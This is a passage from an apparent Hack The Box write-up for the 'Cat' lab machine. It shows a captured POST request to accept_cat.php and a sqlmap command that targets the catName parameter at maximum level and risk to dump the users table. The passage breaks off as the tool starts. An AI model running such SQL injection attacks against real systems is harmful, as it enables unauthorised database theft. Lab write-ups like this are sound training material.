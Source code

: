 Below the picture of the cat was the `Accept` button which we clicked to `intercept` and `save` the `HTTP request` using `Burp Suite`.

![](images/2025-02-02_14-46_80_accept_cat.png)

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Cat/files]
└─$ cat request.req 
POST /accept_cat.php HTTP/1.1
Host: cat.htb
Content-Length: 20
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://cat.htb
Referer: http://cat.htb/admin.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=93bl120bfpat62svahs9e1ndhr
Connection: keep-alive

catName=asdf&catId=1
```

After that we handed the `request` over to `sqlmap` which performed the attack for us automatically and `dumped` the `users table`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Cat/files]
└─$ sqlmap -r request.req -p catName --dbms sqlite --level 5 --risk 3 -T users --batch
        ___
       __H__                                                                     
 ___ ___["]_____ ___ ___  {1.8.12#stable}                                        
|_ -| . [(]     | .'| . |                                                        
|___|_  [.]_|_|_|__,|  _|                                                        
      |_|V...       |_|   https://sqlmap.org                                                                                                                             
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:47:27 /2025-02-02/

[14:47:27] [INFO] parsing HTTP request from 'request.req'
```